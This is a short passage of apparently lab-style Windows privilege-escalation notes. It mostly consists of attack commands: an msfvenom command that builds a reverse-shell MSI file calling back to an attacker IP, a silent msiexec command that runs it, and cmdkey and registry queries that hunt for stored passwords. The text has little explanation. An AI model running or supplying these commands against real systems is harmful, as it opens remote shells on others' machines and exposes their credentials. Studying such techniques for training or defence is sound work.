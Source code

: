 Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. 

generate malicious msi file.

```
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.97.109 LPORT=LOCAL_PORT -f msi -o malicious.msi

```
dont forget to listen for connection.

transfer the file to windows machine.

run the installer

```
           
C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

```

**password**

- list saved credentials : `cmdkey /list`
- Registry keys potentially containing passwords : 

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

```